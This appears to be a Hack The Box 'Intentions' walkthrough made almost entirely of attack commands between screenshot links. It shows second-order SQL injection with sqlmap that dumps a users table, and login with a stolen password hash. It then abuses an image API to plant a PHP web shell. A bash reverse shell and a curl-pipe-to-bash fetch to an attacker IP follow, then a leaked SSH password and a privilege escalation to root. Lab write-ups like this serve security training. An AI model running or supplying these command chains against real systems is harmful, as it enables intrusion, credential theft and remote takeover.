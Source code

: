 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)


![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)


![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)


![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)


```
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
```
![image](https://github.com/regarmulia/HTB/assets/33616880/230307ac-31be-47bc-9385-19d400791dd8)


```
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0fa022ca-bc8b-4cfb-9d89-05da8947f30d)


```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a8a78134-9bdc-4b0b-9bcd-75725f2578f4)


```
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94443e9d-fda1-424e-aa75-2bc33dbccf6e)


![image](https://github.com/regarmulia/HTB/assets/33616880/91adcde2-ab47-4d10-8890-016e7d0e6534)


```
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a740f795-07cd-49c5-b0fa-4cba7ec0a070)


![image](https://github.com/regarmulia/HTB/assets/33616880/50514396-8dea-43e8-8654-ee351d81958b)


```
http://10.10.11.220/
http://intentions.htb/api/v2/auth/login
Edited: v2, hash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20c9ec85-1a6a-4f92-b883-011609a50140)


![image](https://github.com/regarmulia/HTB/assets/33616880/9bde9358-3c79-4186-9cbc-63ebb13ec344)


```
http://intentions.htb/admin#/
http://intentions.htb/api/v2/admin/image/modify
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce76950b-7767-47dd-a328-7d7953ee15f9)


![image](https://github.com/regarmulia/HTB/assets/33616880/0b6871de-0e54-44c1-9d14-27943f81f53b)


![image](https://github.com/regarmulia/HTB/assets/33616880/788c8136-6a8f-4715-95b9-e558c5b1a819)


```
python3 -m http.server 80
http://intentions.htb/api/v2/admin/image/modify
"path":"http://10.10.14.6/test”
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7446d685-b13d-437d-b177-a34ce4d105a0)


![image](https://github.com/regarmulia/HTB/assets/33616880/36a9081f-c32a-400f-b322-618f52ac3216)


```
curl 'http://intentions.htb/api/v2/admin/image/modify' -X POST -H 'X-XSRF-TOKEN: eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0=' -H 'Cookie: XSRF-TOKEN=eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImVySlh1ZmlzOC9vRXdPaTRHK1A1RHc9PSIsInZhbHVlIjoicitCaW9NTDZNdnBzeVduN0dHek1Gd2gzMHV4ZmxFem9iOEZqUnJRUkg0YWhrdHIxNC9reU5pc3Z3LzhpeUNUdm5HMWhjSFZBZGowTnBvVVNzMnZPbTJGcHRIT205OUxIK2M4Z0RTeTFrVWpnQXlERU1ZOHlEUW9xbWZBV1pKZFQiLCJtYWMiOiJhMzg5NTdhOTQ0NjYwMjNhMWYyNThhYmM2NjljZmNhYWY0NTYzMWMwZGRiY2ZlZjQwYjAyN2Q3NTFmNWMwYWVhIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YyL2F1dGgvbG9naW4iLCJpYXQiOjE3MTYzNjE1MTEsImV4cCI6MTcxNjM4MzExMSwibmJmIjoxNzE2MzYxNTExLCJqdGkiOiJZbGVJc0NkWnAzZXc0NWc2Iiwic3ViIjoiMSIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.Y-yF7_2agtJjTqtFeEThuabmwzTvhDCFoq6tHt0l3zc' -F 'path=vid:msl:/tmp/php*' -F 'effect=asd' -F file=@payload.msl
http://intentions.htb/storage/rce.php?c=ls
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c9c6203b-fe5d-4877-ac23-646845ae13ff)


![image](https://github.com/regarmulia/HTB/assets/33616880/d1878460-5ead-4c80-b142-42758ed435ac)


```
/bin/bash -i >& /dev/tcp/10.10.14.6/9001 0>&1
nc -nlvp 9001
http://intentions.htb/storage/rce.php?c=curl%2010.10.14.6/shell|bash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a087ac9e-afc2-423c-ac18-cb36c5d1f97c)

![image](https://github.com/regarmulia/HTB/assets/33616880/cd0cd12f-2df6-49c2-a38e-d4c5ceb77159)

![image](https://github.com/regarmulia/HTB/assets/33616880/c633d585-805d-4e35-8053-fd525fe104e3)


```
ls –la
git log –p
git config --global --add safe.directory /var/www/html/intentions
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f7596d08-39a1-4d35-b979-c91fb211ed4d)


```
HOME=/tmp git config --global --add safe.directory /var/www/html/intentions
HOME=/tmp git log –p
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c4c5df4-014a-4c78-9f4a-d08ae2d9c0c2)


```
ssh greg@intentions.htb
Gr3g1sTh3B3stDev3l0per!1998!
```
![image](https://github.com/regarmulia/HTB/assets/33616880/95449770-cf05-4dbf-8dd2-634e8a9027a1)


```
/opt/scanner/scanner -d /home/legal/uploads -h /home/greg/dmca_hashes.test
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c38c8eac-7ea4-4d58-ada5-db7a90e2af7a)

![image](https://github.com/regarmulia/HTB/assets/33616880/722f714b-d18a-4103-8847-5969f95d9ce1)


```
getcap /opt/scanner/scanner
```
![image](https://github.com/regarmulia/HTB/assets/33616880/aa4e9ed7-dffe-4663-a2a1-7d290941534d)


```
ssh –i root_key6 root@10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8a989765-878f-4e62-b20b-f4256e9ef0cd)
